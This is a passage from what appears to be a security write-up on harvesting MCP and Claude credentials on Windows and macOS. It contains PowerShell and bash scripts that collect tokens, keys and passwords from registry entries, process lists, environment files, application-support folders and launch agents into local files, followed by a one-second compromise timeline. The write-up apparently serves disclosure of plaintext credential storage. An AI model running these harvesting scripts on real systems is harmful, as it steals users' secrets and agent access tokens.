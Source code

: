 ```powershell
    Get-ItemProperty | Where-Object {
        $_ -match "mcp|claude"
    } | ForEach-Object {
        $creds += $_
    }

Write-Host "[+] Harvested $($creds.Count) potential credentials"
$creds | Out-File -FilePath "$env:TEMP\mcp-harvest.txt"
```

### macOS: The Keychain Isn't Involved

```bash
#!/bin/bash
# macOS specific harvesting

echo "[*] Harvesting MCP credentials on macOS..."

# 1. Standard process/env harvesting works the same
ps aux | grep -E "(mcp|claude)" > creds.txt
cat /proc/*/environ 2>/dev/null | strings | grep -E "(TOKEN|KEY)=" >> creds.txt

# 2. macOS specific locations
find ~/Library/Application\ Support -name "*claude*" -o -name "*mcp*" | \
    xargs grep -h "token\|password\|key" 2>/dev/null >> creds.txt

# 3. Launch agents might have creds
grep -r "EnvironmentVariables" ~/Library/LaunchAgents | \
    grep -E "(TOKEN|KEY|PASS)" >> creds.txt

# Note: Keychain is NOT used by MCP (that would be secure!)
echo "[!] MCP doesn't use Keychain, credentials are in plaintext"
```

## The Speed of Compromise

### Automated Harvesting Timeline

```
T+0ms    - Malicious code executes
T+10ms   - Process enumeration complete  
T+50ms   - Command line credentials extracted
T+100ms  - Environment variables harvested
T+200ms  - Configuration files located
T+500ms  - All credentials extracted
T+1000ms - Credentials exfiltrated

Total: 1 second from execution to complete compromise
```

### Scale of Automated Attacks
